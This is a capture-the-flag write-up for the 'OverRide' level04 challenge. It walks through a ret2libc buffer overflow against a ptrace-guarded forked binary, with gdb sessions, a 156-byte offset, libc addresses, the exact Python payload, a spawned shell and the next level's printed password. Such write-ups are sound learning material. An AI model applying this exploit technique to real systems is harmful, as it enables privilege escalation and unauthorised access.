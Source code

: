 We decompile the binary with hex-rays, and we have some good results.
We can see a fork, its in the child that we have a put function to fill the s1 buffer.
We can put 128 bytes in the buffer before the segfault (Because we don t have any check for the size of the buffer in puts).
We can see that the program is using ptrace to trace the execution of a child process.
We are going to try to execute a shell.

We tried before to do like the exercice 1 but we can t use exec in this case because of the line :
v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
if we use exec we have this displayed message : puts("no exec() for you");
So we have to find an other way to execute a shell.
With some research we found that we can use the technique of the ret to libc (Look at links.txt)


We have to use follow-fork-mode child to find the addresses in the child process. (look at gdb_fork.png)

level04@OverRide:~$ gdb ./level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 1870]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1870]
0x41326641 in ?? ()
(gdb)

--> offset = 156

We used the pattern generator, and offset calculator to find this offset.
Now we have to find the address of system, exit and /bin/sh.
The idea of ret2libc is to use the system function with the argument /bin/sh. because the libc is already loaded in the memory, we can use the address of the function in the libc.
We have something like this : EIP+ReturnAddress+instructions
So we overwrite Eip with System, return address with exit and instructions with /bin/sh.
--> system+exit+/bin/sh. (Schema ret2libc.png), 
We are going to use exit to have something clean.

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>	--> find the address of system
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit> --> find the address of exit
(gdb) find __libc_start_main,+99999999,"/bin/sh"	--> find the address of /bin/sh
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

We use find __libc_start_main,+99999999,"/bin/sh" to find the address of /bin/sh in the libc.
We search at the beggining of the libc to 99 999 999 bytes after. (It s not very clean but it works)


system = 0xf7e6aed0 --> in little endian = \xd0\xae\xe6\xf7
exit = 0xf7e5eb70 --> in little endian = \x70\xeb\xe5\xf7
/bin/sh = 0xf7f897ec --> in little endian = \xec\x97\xf8\xf7

Now we have our three addresses, we can write our exploit.
We remember that we have an offset of 156, so we have to write 156 before the address of system +  the return address (exit) and the address of /bin/sh.
We write our payload :
--> python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'

Now we pipe it in the binary, and keep the shell open with cat :

level04@OverRide:~$ ((python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"') ; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN


